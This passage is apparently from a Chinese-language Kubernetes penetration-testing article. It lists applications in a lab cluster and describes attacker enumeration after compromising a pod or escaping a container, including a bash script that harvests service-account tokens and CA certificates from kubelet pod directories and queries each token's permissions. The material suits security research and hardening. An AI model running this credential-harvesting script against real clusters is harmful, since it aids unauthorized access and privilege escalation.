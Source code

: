 
### 研究环境中出现的应用程序

在本次搭建的研究环境中，安装了下面这些应用程序。

| NAME | NAMESPACE | CHART | APP VERSION |
| --- | --- | --- | --- |
| argo | default | argo-cd-5.27.1 | V2.6.6 |
| argo-workflows | kube-system | argo-workflows-0.22.14 | v3.4.5 |
| cert-manager | cert-manager | cert-manage-v1.11.1 | vl.11.1 |
| fluentd-bitnami | default | fluentd-5.6.5 | 1.16.1 |
| ingress-nginx | default | ingress-nginx-4.6.0 | 1.7.0 |
| jenkins | default | jenkins-4.3.22 | 2.387.2 |
| kube-prometheus-stack | default | kube-prometheus-stack-45.21.0 | v0.63.0 |
| kubemetes-dashboard | default | kubemetes-dashboard-6.0.6 | v2.7.0 |
| mysql | default | mysql-9.6.0 | 8.0.32 |
| photoshow | default | photoshow-1.0.1 | 48aabb98 |
| redis | default | redis-17.8.5 | 7.0.9 |

每个请求服务账户的应用程序，都经过了枚举和测试，查看该应用程序所要求的那些权限，能否用来渗透 k8s 集群。

### 对 Host 的枚举

k8s 环境可以通过多种方式实现枚举。

（1）如果攻击者入侵了单个 pod，就可以在 pod 中找这个路径`/var/run/secrets`，以便访问 k8s API 并通过身份验证。

（2）攻击者执行"容器逃逸"(container escape) 并获得对 host 的访问。

此时，攻击者可以执行简单的 shell 脚本，如下，kubelet-enum.sh

```bash
for mydir in $(find /var/lib/kubelet/pods -name namespace -exec dirname {} \;); do
  echo "Checking $mydir"
  # 设置环境变量
  export cert=$mydir/ca.crt
  export token=$mydir/token
  export namespace=$mydir/namespace
  export apiserver=$(netstat -n | grep 6443 | awk '{ print $5 }' | uniq)
  echo "$cert $namespace $token $apiserver"
  kubectl --certificate-authority=$cert --token=$(cat $token) --namespace=$(cat $namespace) --server=https://$apiserver auth can-i --list
done
```

脚本的作用是：

枚举被攻击者控制的主机上的每个 pod 拥有的"权限"。

